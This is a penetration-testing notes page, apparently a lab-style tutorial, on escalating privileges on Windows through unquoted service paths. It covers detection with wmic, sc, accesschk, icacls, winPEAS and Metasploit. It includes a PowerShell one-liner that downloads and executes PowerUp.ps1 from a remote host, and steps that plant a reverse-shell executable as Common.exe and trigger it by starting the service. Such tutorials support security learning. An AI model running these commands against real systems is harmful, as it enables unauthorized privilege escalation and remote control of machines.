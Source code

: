 # Unquoted Service Path

Executables in Windows can be run without using their extension (e.g. “whoami.exe” can be run by just typing “whoami”). Some executables take arguments, separated by spaces, e.g. someprog.exe arg1 arg2 arg3… This behavior leads to ambiguity when using absolute paths that are unquoted and contain spaces.

Consider the following unquoted path: C:\Program Files\Some Dir\SomeProgram.exe

&#x20;To us, this obviously runs SomeProgram.exe. To Windows, C:\Program could be the executable, with two arguments: “Files\Some” and “Dir SomeProgram.exe” Windows resolves this ambiguity by checking each of the possibilities in turn.** If we can write to a location Windows checks before the actual executable, we can trick the service into executing it instead.**

## detecting unquoted service paths

### manual method

```
sc query vaultsvc → query the credential manager
```

searching for all unquoted service binary paths:

```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

This command finds the service name, executable path, display name of the service and auto starts in all the directories except C:\Windows (since by default there is no such service which has spaces and is unquoted in this folder). Also, we need to exclude those services that are enclosed within the double quotes.

### automated with metasploit

We use Metasploit’s exploit/windows/local/trusted\_service\_path.

```
use exploit/windows/local/trusted_service_path
set session 1
exploit
```

### automated using powerup

```
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.81/PowerUp.ps1');Get-ServiceUnquoted"
```

### automated with winPEAS

Run winPEAS to check for service misconfigurations:

```
winPEASany.exe quiet servicesinfo
```

![](<../../../../.gitbook/assets/image (100).png>)

Note that the “unquotedsvc” service has an unquoted path that also contains spaces:

C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe

Confirm this using sc:

```
sc qc unquotedsvc
```

![](<../../../../.gitbook/assets/image (101).png>)

we can detect it using

Use accesschk.exe to check for write and startpermissions:

```
accesschk.exe -ucqv user unquotedsvc
```

![](<../../../../.gitbook/assets/image (77).png>)

we have start permission, now check for write permission on each directory path to the binary file:

```
accesschk.exe /accepteula -uwdq C:\
accesschk.exe /accepteula -uwdq "C:\Program Files\"
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

or

```
icacls c:\
icacls "c:\\Program Files"
icacls "c:\\Program Files\\Unquoted Path Service"
```

![](<../../../../.gitbook/assets/image (75).png>)

it looks like all the members of the builtin\users group have RW (read/write) access to this directory. we are a member of that group so we can create a file named Common.exe in C:\Program Files\Unquoted Path Service and have it execute a reverse shell. (because C:\Program Files\Unquoted Path Service is the first path that our user group has rw access and the next thing that windows looks for while executing the binary is the name "Common" in the "Common Filess" string so if we create a reverse shell executable named Common.exe it will be executed befor windows reaches the "Common Files" directory

Copy the reverse shell executable and rename it appropriately:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

Start a listener on Kali, and then start the service to trigger the exploit:

```
net start unquotedsvc
```

![](<../../../../.gitbook/assets/image (97).png>)







